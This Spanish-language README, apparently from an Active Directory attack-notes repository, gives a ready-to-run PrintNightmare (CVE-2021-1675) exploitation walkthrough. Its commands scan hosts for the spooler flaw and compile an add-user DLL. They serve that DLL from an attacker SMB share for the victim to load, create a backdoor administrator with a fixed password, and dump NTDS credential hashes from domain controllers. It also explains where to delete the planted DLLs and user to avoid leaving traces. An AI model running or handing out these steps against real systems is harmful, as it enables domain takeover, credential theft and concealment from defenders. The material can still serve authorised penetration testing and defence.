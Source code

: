 # PrintNighmare

Para este ataque se va a aprovechar una vulnerabilidad en el servicio spooler de Windows para añadir un usuario con permisos de administrador. Tener en cuenta que para no dejar rastro después haya que eliminar el usuario y los dll subidos en el equipo víctima

```Bash
# Comprobamos que el equipo es vulnerable
poetry run crackmapexec smb <Rango de IPs> -u <user> -p <pass> -M spooler

# Obtenemos el fichero .c para añadir usuario del repositorio de Github: https://github.com/newsoft/adduser y lo compilamos
x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32

# Levantamos una carpeta compartida para que el equipo victima obtenga la dll que heoms creado
impacket-smbserver -smb2support ATTACKERSHARE .

# Ejecutamos el exploit CVE-2021-1675.py obtenido del repositorio de Github: https://github.com/cube0x0/CVE-2021-1675
python3 CVE-2021-1675.py <dominio>/<user>:'<pass>'@<DNS del equipo victima> '\\<Nuestra IP>\ATTACKERSHARE\pnightmare2.dll'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/pritnightmare/files/vid.gif?raw=true "Check de printnighmare y esploit")

```Bash
# Comprobación de que el usuario printnighmare con permisos de administrador ha sido creado
cme smb <IP víctima> -u pnightmare2 -p 'Test123456789!'

# Si es un DC volcar el NTDS
cme smb <IP víctima> -u pnightmare2 -p 'Test123456789!' --ntds
 
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/printnighmare/files/vid2.gif?raw=true "Explotar el nuevo usuario")


## Para eliminar el rastro ver:
[Añadir/Eliminar usuarios](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/utilities/add_remove_users)
## Para borrar las ddl se encuentran en las siguietnes ubicaciones de windows con el nombre de printnighmare*.dll
```Bash
C:\Windows\System32\spool\drivers\x64\3
C:\Windows\System32\spool\drivers\x64\3\Old\{id}\
```
